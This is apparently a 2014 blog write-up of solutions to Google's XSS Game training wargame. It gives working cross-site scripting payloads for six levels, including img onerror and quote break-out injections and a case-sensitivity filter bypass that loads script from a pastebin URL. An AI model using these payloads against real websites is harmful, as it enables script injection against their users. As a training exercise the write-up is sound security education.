 Title: Googles XSS Game - Solutions
Date: 2014-06-02
Tags: web, wargames, security, coding, hacking, xss, google, javascript
Category: blog

These are my steps how I've solved the [XSS Game](https://xss-game.appspot.com/)

## Level 1

This is the most obvious and easiest one. Just insert following code and you're done:

~~~ javascript
<script>alert(1)</script>
~~~

## Level 2

Since the `script` won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use `img` tags along with the `onerror` attributes. Here you go:

~~~ javascript
<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
~~~

<!--more-->

## Level 3

Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see `index.html`:

~~~ javascript
[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
~~~

As you see the `num` parameter is used to generate the `img` tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the `onerror` attribute to insert JS. Insert this into the URL address bar and you'll get your `alert()`:

~~~
https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
~~~

## Level 4

This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting `https://xss-game.appspot.com/level4/frame?timer='` showed me following output:

~~~ javascript
SyntaxError: unterminated string literal

startTimer(''');
~~~

Obviously there is again a way to escape the function and append the `alert()` call. I have tried several things:

* https://xss-game.appspot.com/level4/frame?timer=');

~~~ javascript
    SyntaxError: unterminated string literal

    startTimer('')');
~~~


* https://xss-game.appspot.com/level4/frame?timer=')&#59;

~~~ javascript
    SyntaxError: unterminated string literal


    startTimer('')');
~~~


And then I've decided to use some URL encoding: `%3B` represents the semi-colon.

* https://xss-game.appspot.com/level4/frame?timer=')%3B

~~~ javascript
    SyntaxError: unterminated string literal


    startTimer('');');
~~~


Aha.. There you go! We can terminate the call and insert other ones. The **final request**:

* https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in

~~~
startTimer('');alert(1);var b=('');
~~~

I must admit: Nice one!


## Level 5

This one was quite easy. On the first page you can see a link: `https://xss-game.appspot.com/level5/frame/signup?next=confirm`. Now let's have a look how this `next` parameter is used in `confirm.html`:

~~~ javascript
[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
~~~

So the window.location is set based on the `next` parameter. This is a typical case for *DOM based XSS*.  Besides that we have in `signup.html`:

~~~ javascript
[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
~~~

Again the `next` parameter is used as an `a` tag target. Ok, enough bla bla. Here is the PoC:

* Go to `https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)`
* Insert your Mail
* Click `Next >>`
* Voila!

## Level 6

This time I had to figure to host my JS code. So I've used `pastebin.com` to host my [evil code](http://pastebin.com/raw.php?i=rTRPYeNk). Next I had a look at the code. As you can read a new `script` tag is created and the `src` attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing *https?*:

~~~ javascript
[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
~~~

Afterwards the text after the hash is used as the scripts src:

~~~ javascript
// Load this awesome gadget
scriptEl.src = url;
~~~

Have you noticed something about the regexp? No?! Seriously not? Ok. It's **not** case-sensitive. You can escape it by using *hTTps* or any other combination. So the **final PoC**:

* https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0


## Conclusion

This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

